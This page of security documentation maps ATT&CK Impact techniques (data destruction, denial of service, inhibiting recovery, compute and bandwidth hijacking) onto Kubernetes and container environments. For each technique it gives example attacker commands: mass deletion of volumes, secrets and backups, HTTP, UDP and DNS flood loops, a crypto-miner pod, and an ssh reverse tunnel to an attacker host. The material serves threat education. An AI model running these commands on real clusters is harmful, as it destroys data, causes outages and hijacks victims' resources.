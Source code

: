 # Impact

## **Impact Techniques in Containerized Environments**

In Kubernetes and containerized infrastructures, adversaries use Impact techniques to disrupt service availability, destroy critical data, exhaust resources, and hinder recovery efforts. These attacks can cripple containerized workloads, overwhelm clusters, and abuse cloud resources, often resulting in downtime, financial loss, or long-term degradation of service.

***

#### 🧨 Data Destruction → **T1485**

**Description**:\
Destroy or corrupt containerized data, application states, Kubernetes Secrets, or mounted storage volumes to impact the availability or integrity of services.

**Container Example**:\
After compromising a container, the attacker deletes mounted Persistent Volume Claims (PVCs):

```bash
bashCopyEditrm -rf /mnt/data/*
```

Or directly deletes Kubernetes Secrets and ConfigMaps:

```bash
bashCopyEditkubectl delete secrets --all --namespace production
```

If access to cloud storage is possible (e.g., Azure Disks, Azure Files), the attacker may format or unmount the volumes, causing irreversible data loss.

***

#### 🚫 Endpoint Denial of Service

**Description**:\
Flood containerized services, APIs, or applications hosted within Kubernetes to exhaust service capacity and render endpoints unavailable.

**Container Example**:\
The attacker launches an HTTP flood against a Kubernetes Ingress Controller, API endpoint, or exposed application service:

```bash
bashCopyEditwhile true; do curl http://target-service.default.svc.cluster.local; done
```

Or triggers excessive load against internal APIs to crash the service:

```bash
bashCopyEditab -n 1000000 -c 100 http://10.0.0.5:8080/
```

This attack can overwhelm Kubernetes nodes, exhaust Ingress Controller threads, or crash API servers under heavy load.

***

#### 🔁 Inhibit System Recovery

**Description**:\
Delete or disable backup resources (e.g., PVC snapshots, etcd backups, recovery scripts) to prevent restoration after sabotage or system failure.

**Container Example**:\
The attacker deletes backup volumes or tamper with recovery scripts:

```bash
bashCopyEditkubectl delete pvc --all --namespace backup
kubectl delete configmap recovery-scripts --namespace kube-system
```

In Azure, the attacker could revoke or delete Azure Backup vault resources if they have token access.

**Result**:\
Even if defenders detect the breach, recovery options are significantly limited, prolonging downtime.

***

#### 🌐 Network Denial of Service

**Description**:\
Flood Kubernetes network infrastructure, including CNI plugins, kube-proxy, services, or Ingress Controllers, to disrupt pod-to-pod or external communications.

**Container Example**:\
Flood Kubernetes internal network:

```bash
bashCopyEdithping3 --flood --udp -p 443 10.0.0.0/16
```

Or target the Kubernetes DNS (CoreDNS):

```bash
bashCopyEditwhile true; do dig @10.0.0.10 example.com; done
```

This disrupts service discovery (DNS outages) and inter-pod communication, cascading into application failures.

***

#### 🪙 Resource Hijacking → **Compute Hijacking (T1496.001)**

**Description**:\
Steal Kubernetes cluster compute resources (CPU, GPU) to run unauthorized workloads like cryptocurrency miners.

**Container Example**:\
The attacker deploys a hidden crypto-mining pod:

```bash
bashCopyEditkubectl run miner --image=evilcorp/xmrig --restart=Always --namespace default
```

Or compromises a Jenkins agent in the cluster to execute mining software covertly.

**Impact**:\
Exhausts node resources, degrades performance for legitimate workloads, and drives up cloud billing costs.

***

#### 📡 Resource Hijacking → **Bandwidth Hijacking (T1496.002)**

**Description**:\
Abuse container network bandwidth to host proxies, exfiltrate data, or route attacker traffic, consuming outbound bandwidth and possibly violating cloud service terms.

**Container Example**:\
The attacker deploys a TOR relay or SOCKS proxy inside a pod:

```bash
bashCopyEditdocker run -d --name tor-relay evilcorp/tor-node
```

Or sets up a hidden exfiltration tunnel:

```bash
bashCopyEditssh -R 0.0.0.0:2222:localhost:22 attacker@remote-server
```

**Impact**:\
Consumes egress bandwidth, increases cloud bills, risks legal exposure, and can trigger cloud provider throttling or account suspension.

***

### 📊 Summary Table

| Technique                       | Containerized Use Case                                       |
| ------------------------------- | ------------------------------------------------------------ |
| T1485 – Data Destruction        | Delete mounted PVCs, Kubernetes Secrets, or cloud storage    |
| Endpoint Denial of Service      | HTTP floods, application load exhaustion, API hammering      |
| Inhibit System Recovery         | Delete backups, PVC snapshots, recovery ConfigMaps           |
| Network Denial of Service       | Flood internal Kubernetes DNS, kube-proxy, or pod networking |
| T1496.001 – Compute Hijacking   | Deploy crypto miners or abuse CI/CD containers               |
| T1496.002 – Bandwidth Hijacking | Deploy TOR relays, proxies, or exfil tunnels from pods       |
